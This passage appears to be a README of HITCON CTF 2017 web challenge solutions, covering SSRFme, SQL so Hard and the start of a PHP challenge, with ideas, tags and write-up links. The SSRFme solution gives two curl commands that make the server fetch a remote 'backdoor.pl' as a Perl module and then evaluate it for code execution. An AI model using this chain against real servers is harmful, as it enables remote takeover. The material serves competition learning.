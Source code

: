 ```bash
$ sudo apt install libwww-perl
```

#### Solution

```bash
# write evil URI module to current directory
$ curl http://host/?filename=URI/orange.pm&url=http://orange.tw/w/backdoor.pl

# eval evil module `orange`
$ curl http://host/?filename=xxx&url=orange://orange.tw
```

#### Write Ups

* [Another Solution by @Paul_Axe](https://twitter.com/Paul_Axe/status/927669724439293953)  
* [HITCON 2017 SSRFme](https://ricterz.me/posts/HITCON%202017%20SSRFme)  
* [SSRFme by @sorgloomer](https://github.com/sorgloomer/writeups/blob/master/writeups/2017-hitcon-quals/ssrfme.md)  



## **SQL so Hard**
  
Difficulty: **★★★**  
Solved: **10 / 1541**  
Tag:  **WhiteBox**, **MySQL**, **PostgreSQL**, **SQL Injection**, **Code Injection**  

#### Idea

* MySQL `max_allowed_packet` dropped large size SQL sentence  
* [Node-Postgres - code execution vulnerability](https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability)  
* Exploit the RCE in SQL `UPDATE` syntax

#### Source Code

* [app.js](hitcon-ctf-2017/sql-so-hard/app.js)  

#### Solution

* [exploit.py](hitcon-ctf-2017/sql-so-hard/exploit.py)  

#### Write Ups

* [SQL so Hard by @sorgloomer](https://github.com/sorgloomer/writeups/blob/master/writeups/2017-hitcon-quals/sql-so-hard.md)  


## **Baby^H Master PHP 2017**
  
Difficulty: **★★★★☆**  
Solved: **0 / 1541**  
Tag:  **WhiteBox**, **PHP**, **Serialization**, **Apache Prefock**  
